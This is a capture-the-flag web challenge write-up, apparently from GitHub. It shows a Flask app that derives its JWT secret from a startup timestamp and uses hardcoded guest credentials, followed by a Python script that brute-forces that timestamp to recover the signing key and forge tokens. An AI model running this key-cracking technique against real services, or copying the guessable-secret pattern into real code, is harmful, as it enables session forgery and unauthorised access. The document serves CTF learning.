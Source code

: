 ## Description
This Web challenge ought to challenge your mettle. It seems like a standard web application just like any other. However, what you can uncover lies in your hands. How far will you go to become the ultimate Web Conquerer. What magical secrets are you capable of uncovering? Obtain the flag and unveil to me your true and ultimate potential!!
## Hints 
none
## Solution
Getting in the challenge, we got a login form

![image](https://github.com/user-attachments/assets/8eb94c64-99d2-4044-8589-b1d4671351c1)

And some base64 encoded content

![image](https://github.com/user-attachments/assets/c3e23678-6f23-4846-8c28-e34382c7f3e3)
Decode the string I got the source code of the website
```python
app = Flask(__name__)
start_time = int(time.time())

app.config['SECRET_KEY'] = f"Zi-S3CR3T-KEY-{start_time}"
app.config['SESSION_SECRET_KEY'] = app.config['SECRET_KEY']

GUEST_USERNAME = "guest"
GUEST_PASSWORD = "ezypass123"

def session_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        token = request.cookies.get('session')
        if not token:
            return redirect(url_for('login'))
        try:
            data = jwt.decode(token, app.config['SESSION_SECRET_KEY'], algorithms=["HS256"])
            username = data.get('username')
            if username not in ['guest', 'admin']:
                raise jwt.InvalidTokenError
        except jwt.ExpiredSignatureError:
            return redirect(url_for('login'))
        except jwt.InvalidTokenError:
            return redirect(url_for('login'))
        return f(*args, **kwargs)
    return decorated_function
```
It seems like the challenge got their timestamp and make it a secret key for the JWT: `Zi-S3CR3T-KEY-{start_time}`.

It also get the token as request and return the user if it not match the requirements, so we have to find the timestamp of the start time and modify the jwt to get the flag.

The website provided us `guest:ezypass123`, so let get into it.

![image](https://github.com/user-attachments/assets/a0a65126-50d5-4c95-b7c4-9b71ca3d0e70)
As expected, we got a JWT that contains data of guest.

We do know that the signature part having partern `Zi-S3CR3T-KEY-{start_time}`, so we could just brute-force it.

```python
import base64
import hmac
import hashlib
import json

target_signature = "guACOMVy3HEYjuCeDMFiKx8l_y3XCtr7_obY7F4t8qs"

# Step 1: Base64URL encode the header
header = {"alg": "HS256", "typ": "JWT"}
header_json = json.dumps(header, separators=(",", ":"))
header_encoded = base64.urlsafe_b64encode(header_json.encode()).decode().rstrip("=")

# Step 2: Base64URL encode the payload for "guest"
payload = {"username": "guest"}
payload_json = json.dumps(payload, separators=(",", ":"))
payload_encoded = base64.urlsafe_b64encode(payload_json.encode()).decode().rstrip("=")

# Step 3: Brute-force the start_time over a small range
for start_time in range(1723061810, 1725261820): 
    key = f"Zi-S3CR3T-KEY-{start_time}"
    message = f"{header_encoded}.{payload_encoded}".encode()
    signature = hmac.new(key.encode(), message, hashlib.sha256).digest()
    signature_encoded = base64.urlsafe_b64encode(signature).decode().rstrip("=")

    # Check if the generated signature matches the target signature
    if signature_encoded == target_signature:
        jwt_token = f"{header_encoded}.{payload_encoded}.{signature_encoded}"
        print(f"Match found!\nStart time: {start_time}\nJWT: {jwt_token}")
        break
else:
    print("No matching JWT found in the specified range.")
```
Shout out to chatgpt, my lazy ass could never.

![image](https://github.com/user-attachments/assets/0542f94b-eb83-4e71-ab25-766578d32e1e)
Got the timestamp, now we have the right JWT and the flag.

![image](https://github.com/user-attachments/assets/01457a70-06a7-4d1e-afc1-9e9a83feb1ba)




